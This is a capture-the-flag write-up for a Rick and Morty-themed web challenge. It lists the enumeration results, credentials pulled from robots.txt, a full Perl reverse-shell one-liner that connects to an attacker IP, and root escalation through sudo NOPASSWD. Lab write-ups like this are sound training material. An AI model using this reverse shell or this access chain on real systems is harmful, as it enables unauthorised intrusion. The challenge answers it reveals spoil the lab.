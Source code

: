 # Pickle-Rick.

> This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

IP : `10.10.71.65`.

nmap scan [results](/nmap).

Open ports : `20:ssh`, 	`80:http`.

Username found : `R1ckRul3s`. (Requires public key to login via `ssh`, can't use hydra).

nitko scan [result](/nikto).

Gobuster [result](/gobuster).

Found directories through Gobuster : 
```
/.hta 
/.htaccess 
/.htpasswd 
/assets 
/index.html 
/robots.txt 
/server-status 
/login.php 
```
`/robots.txt` had a string : `Wubbalubbadubdub`.

This turned out to be the password for the username found!

Got a command panel in `portal.php`.

To get a reverse shell we use a perl command : 
```
perl -e 'use Socket;$i="10.9.208.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
Got shell access!

Found answers to Q1, Q2 can be found in `/home/rick`.

`sudo -l` gave us `(ALL) NOPASSWD: ALL` result, could log in as root without password.

got the 3rd ingredient!
